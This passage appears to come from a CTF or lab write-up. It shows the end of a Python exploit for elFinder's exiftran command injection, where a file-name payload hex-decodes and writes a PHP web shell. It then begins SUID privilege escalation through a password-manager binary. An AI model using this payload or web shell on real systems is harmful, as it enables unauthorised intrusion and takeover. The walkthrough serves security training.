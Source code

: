 ```python
                sys.exit("\nSo long brother....")
    else:
        print("[*] Cannot reliably check exploitability T_T.")


if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python exploit.py http://IP:PORT/elFinder/ [IMAGE FILE]")
        print("""Note: 
              1. Copy or make an image file in the current working directory.
              2. Ensure that 'image_input.jpg' is literal file name for the image file.
              3. Ensure the image file is present in the current working directory. :)""")
        sys.exit(0)

    url = sys.argv[1]
    payload = "image_input.jpg;echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > image_input.php;echo image_input.jpg"

    print("[*] Uploading sus image...")
    hash = upload(url, payload)
    print("[*] Executing the payload...")
    imgRotate(url, hash)
    shell(url)
```

We can either run this code or use the Metasploit exploit located at: `exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection`

![](cybersecurity/images/Pasted%2520image%252020241202145921.png)

Once we've set everything, we got a shell, let's perform privilege escalation
# PRIVILEGE ESCALATION
---

To begin with, I used `find / -perm -u=s -type f 2>/dev/null` and got this output:

![](cybersecurity/images/Pasted%2520image%252020241202150045.png)

We found something interesting a `/usr/sbin/pwm` file, asking Chatgpt for help related to that, it gave this path to perform the privilege escalation:

```ad-summary

First, we know that when we execute `id` we get this:

![](cybersecurity/images/Pasted%2520image%252020241202150257.png)

If we read the strings from our file, we see this:

![](cybersecurity/images/Pasted%2520image%252020241202150408.png)
We can see that it uses `id` command then it uses this regex `uid=%*u(%[^)])` to get the username part in `uid` . We can also see here that it appends the username between `/home/<username>/.passwords` and getting that `.passwords` file from that directory

Peeking at the home directory of user `think` , we can see that he have that password file but we have no read permission to it.

So, we got the following observations: 

1. SetUID and SetGID Binary (`/usr/sbin/pwm`):

- This means that the binary runs with elevated privileges.
```